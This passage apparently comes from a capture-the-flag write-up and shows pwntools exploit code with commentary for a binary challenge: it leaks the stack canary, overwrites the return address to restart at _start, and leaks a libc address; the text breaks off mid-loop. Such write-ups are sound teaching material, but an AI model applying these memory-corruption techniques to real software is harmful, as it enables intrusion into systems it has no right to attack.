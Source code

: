 ```python

# patch canary
p.sendlineafter('?\n','1')
p.sendlineafter('!\n',str(0x98-0x10))
p.sendlineafter('!\n',b'\0')

# exit to jump back to _start
p.sendlineafter('?\n','3')
```

There's a lot to unpack here in round one.

The `read` buffer `local_98` is `98 - 10` from `local_10` (the canary).  Canaries have their LSB always set to `00`.  That null will make the aforementioned `strcpy` based editor impossible to use, plus it will also terminate the string when displaying, so we'll have to add one to our write to replace the `00` with an `A`.  Then we can simply display the string to get the canary.

After that we need to reset `initialized` using the editor and going _backwards_.

Next, write out a new return address and set it to `_start`, to start all over.  This is a bit tricky with this editor, you kinda have to do it from the end and work back.

> Some clarity here.  The original return address was 48-bits, and the `_start` address is 24-bits, the working from backwards was to null out the address.

Lastly we can patch the canary and restore the `00` at the end, this has to be done last or we would have been unable to do the rest because of the `strcpy`-based editor.

```python
## round 2: leak libc
# leak libc
payload  = b''
payload += (0x98-0x10) * b'A'
payload += p64(canary + 1)
payload += (0x98 - len(payload)) * b'B'
p.sendafter(':\n',payload)
p.sendlineafter('?\n','2')
p.recvline()
p.recvline()
p.recv(0x98)
__libc_start_main = u64(p.recv(6) + b'\0\0')
libc.address = __libc_start_main - libc_start_main_offset - libc.sym.__libc_start_main
log.info('libc.address: ' + hex(libc.address))

# reset intialized
p.sendlineafter('?\n','1')
p.sendlineafter('!\n',str(binary.sym.initialized - binary.sym.editbuf))
p.sendlineafter('!\n',b'\0')

# write out RBP and return address
for i in range(8 + 6):
    p.sendlineafter('?\n','1')
    p.sendlineafter('!\n',str(0x98-0x8+i))
    p.sendlineafter('!\n',b'B')

# zero out return address
# have to do this backwards because of how edit/strcpy
for i in range(5,2,-1):
    p.sendlineafter('?\n','1')
    p.sendlineafter('!\n',str(0x98+i))
    p.sendlineafter('!\n',b'\0')

# set return address to _start
for i in range(3):
    p.sendlineafter('?\n','1')
    p.sendlineafter('!\n',str(0x98+i))
```